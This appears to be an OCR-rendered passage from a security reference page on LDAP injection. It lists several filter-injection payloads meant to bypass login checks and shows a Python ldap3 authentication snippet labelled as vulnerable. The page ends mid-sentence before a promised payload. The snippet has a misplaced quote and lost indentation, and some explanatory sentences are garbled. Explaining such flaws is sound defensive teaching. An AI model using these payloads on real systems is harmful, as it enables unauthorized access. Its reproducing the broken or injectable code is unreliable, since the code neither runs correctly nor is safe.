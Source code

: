 
```
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```



```
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) ”> As (|) is FALSE then the user is admin and the password check is True.
```



```
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```



```
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

## EXAMPLE OF A VULNERABLE CODE:

```python
from ldap3 import Server, Connection, ALL, NTLM

def authenticate(username, password):
 server = Server('ldap://example.com', get_info=ALL)
 conn = Connection(server, user=f'example_domain\\{username}, password=password, authentication=NTLM')
 if conn.bind():
 print('Authentication succesfull')
 else:
 print('Authentication failed')

if __name__ == '__main__':
 username_input = input('Username: ')
 password_input = input('Password: ')

 authenticate(username_input, password_input)
```

This code is vulnerable due to its `username_input` parameter, it is injected directed on the server, so, an attacker can use this to bypass the login or get access to confidential data.

The code is also vulnerable due to the lack of poor sanitization and validation of the user input, with a correct sanitization and validation, this vulnerability would not occur, for example, an attacker could be able to pass in the following payload to get admin access:
